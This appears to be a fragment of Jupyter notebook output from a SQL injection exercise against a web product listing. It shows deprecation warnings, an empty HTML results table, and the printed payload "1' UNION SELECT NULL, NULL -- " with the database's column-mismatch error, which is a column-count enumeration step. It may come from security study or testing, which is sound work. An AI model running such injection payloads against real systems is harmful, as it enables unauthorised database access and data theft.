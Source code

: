 
    C:\Users\safwan\AppData\Local\Temp\ipykernel_40644\1803916895.py:3: DeprecationWarning: Importing display from IPython.core.display is deprecated since IPython 7.14, please import from IPython display
      from IPython.core.display import display, HTML
    C:\Users\safwan\AppData\Local\Temp\ipykernel_40644\1803916895.py:53: DeprecationWarning: The 'text' argument to find()-type methods is deprecated. Use 'string' instead.
      error_message = soup.find(text="The used SELECT statements have a different number of columns")



<table>
 <tr>
  <td style="width:200px ">
   <b>
    Product Name
   </b>
  </td>
  <td style="width:200px ">
   <b>
    Product Type
   </b>
  </td>
  <td style="width:450px ">
   <b>
    Description
   </b>
  </td>
  <td style="width:110px ">
   <b>
    Price (in USD)
   </b>
  </td>
 </tr>
 <tr>
  <td style="width:200px">
  </td>
  <td style="width:200px">
  </td>
  <td style="width:450px">
  </td>
  <td style="width:110px">
  </td>
 </tr>
</table>



    
    ------------------------------------------------------------------------------------------------------------------------------------------------------
    
    Payload: 1' UNION SELECT NULL, NULL -- 
    The used SELECT statements have a different number of columns
    Result table:
